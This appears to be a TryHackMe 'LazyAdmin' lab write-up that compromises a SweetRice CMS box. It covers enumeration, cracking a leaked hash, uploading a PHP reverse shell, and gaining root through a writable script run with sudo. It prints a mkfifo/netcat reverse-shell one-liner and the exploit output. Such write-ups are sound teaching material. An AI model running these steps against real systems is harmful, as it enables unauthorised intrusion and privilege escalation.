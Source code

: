 # TryHackMe | [LazyAdmin](https://tryhackme.com/room/lazyadmin)

## What is the user flag?

First, we will enumerate our target.

```bash
❯ nmap -sV 10.10.39.105
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-12 11:35 IST
Nmap scan report for 10.10.39.105
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 20.10 seconds
```

As we can see, two ports are open on our target machine, port 22 for ssh and port 80 with http. Let's see what we have on port 80.

![Apache](/images/apache2.png)

It is an Apache2 Ubuntu Default Page. Now we use gobuster to enumerate any directories this server might have.

```bash
❯ gobuster dir -u 10.10.39.105 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -q
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.39.105/content/]
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```

We have found a /content subdirectory.

![Content](/images/sweetrice.png)

Let's enumerate it too.

```bash
❯ gobuster dir -u 10.10.39.105/content -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -q
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.39.105/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.39.105/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.39.105/content/attachment/]
/changelog.txt        (Status: 200) [Size: 18013]
/images               (Status: 301) [Size: 321] [--> http://10.10.39.105/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.39.105/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.39.105/content/js/]
/license.txt          (Status: 200) [Size: 15410]
```

We have found some interesting files. Let's check the changelog.txt.

```
#############################################
SweetRice - Simple Website Management System
Version 1.5.0
Author:Hiler Liu steelcal@gmail.com
Home page:http://www.basic-cms.org/
#############################################
New web - new SweetRice for both PC & mobile website creator,easy way to follow the new web world.

========================================
```

We know now that the target machine is using SweetRice CMS V1.5.0. Let's search [Exploit-DB](https://www.exploit-db.com/) for a vulnerability we can exploit.

We find a [Backup Disclosure](https://www.exploit-db.com/exploits/40718) vulnerability. Let's use it to exploit this CMS.

![MySql](/images/mysql_backup.png)

We download and open the mysql_bakup_20191129023059-1.5.1.sql file.

We now have a username and a password hash. Let's crack the hash using hashcat.

```bash
❯ hashcat -a 0 -m 0 lazyhash.txt /usr/share/wordlists/rockyou.txt

42f749ade7f9e195bf475f37a44cafcb:[REDACTED]
```

![Login](/images/login.png)

So we now have both the username and the password. Let's log into the admin panel.

![Admin Panel](/images/admin_panel.png)

We now have to set the website status to Running so that we can access the site.

![Website](/images/website.png)

There's nothing interesting on the site itself. Let's look if there's another vulnerability we can exploit.

We have found an [Arbitrary File Upload](https://www.exploit-db.com/exploits/40716) vulnurablity. We can exploit it to upload a reverse shell script and gain access to the target machine.

We're going to use [pentestmonkey's reverse ssh php script](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

```bash

+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.39.105/content/attachment/shell.php5
```

p.s : if it doesn't seem to work, try to hardcode the values in the code.

![Shell](/images/file_upload.png)

Now we start a netcat listener on the specified port to connect to the reverse shell.

```bash
❯ nc -nlvp 1234
Connection from 10.10.39.105:44046
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 09:34:23 up 33 min,  0 users,  load average: 0.00, 0.01, 0.24
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Annddddd we're in.

Let's navigate the file system to find the user.txt.

```bash
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
[DATA EXPUNGED]
```

## What is the root flag?

We now have to escalate our priviledge and gain root access on this machine.

Let's check what commands we can run.

```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

We can run the perl file backup.pl. Let's check what's in it.

```bash
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

The backup.pl script executes /etc/copy.sh. What's in there i wonder.

```bash
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

```

We can run this file as root, so if we create a reverse shell using this file, we can get root access to the target machine from our host macine.

We already have a reverse shell script on this machine, so why not reuse it.

```bash
$ echo 'php /var/www/html/content/attachment/shell.php5' > /etc/copy.sh
```

Now we have to run backup.pl as root.

```bash
$ sudo /usr/bin/perl /home/itguy/backup.pl
$ Successfully opened reverse shell to 10.17.15.106:1234
```

We now have root access to this machine. All we have to do is to locate root.txt (it is usually found in /root).

```bash
❯ nc -nlvp 1234
Connection from 10.10.39.105:44052
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 09:46:00 up 44 min,  0 users,  load average: 0,00, 0,00, 0,09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
[DATA EXPUNGED]

```
